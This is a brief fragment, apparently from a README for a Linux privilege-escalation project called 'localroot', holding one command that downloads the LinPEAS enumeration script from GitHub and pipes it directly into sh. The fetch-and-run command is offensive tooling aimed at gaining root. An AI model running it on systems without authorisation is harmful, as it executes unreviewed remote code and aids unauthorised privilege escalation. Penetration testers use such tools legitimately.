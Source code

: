 # localroot Auto Root Linux Privilege Escalation

```bash
# From public github

curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

